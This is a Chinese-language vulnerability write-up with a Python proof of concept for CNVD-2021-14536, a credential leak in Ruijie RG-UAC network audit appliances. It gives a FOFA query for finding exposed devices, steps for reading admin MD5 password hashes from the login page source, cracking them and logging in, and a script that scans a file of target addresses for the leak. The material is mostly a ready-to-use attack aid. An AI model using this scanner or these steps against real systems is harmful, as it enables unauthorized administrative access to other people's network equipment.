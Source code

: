 # 锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露 CNVD-2021-14536

## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 影响版本

> [!NOTE]
>
> 锐捷RG-UAC统一上网行为管理审计系统

## FOFA

> [!NOTE]
>
> title="RG-UAC登录页面"

## 漏洞复现

来到登录页面

![](锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露.assets/1627363606233943.jpg)

按F12查看源码,可以发现账号和密码的md5形式

![](锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露.assets/1627363606439235.jpg)

解密md5得到密码后即可登录系统

![](锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露.assets/16273636065588212.jpg)

![](锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露.assets/16273636067845519.jpg)



## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露.assets/1627363607167094.jpg)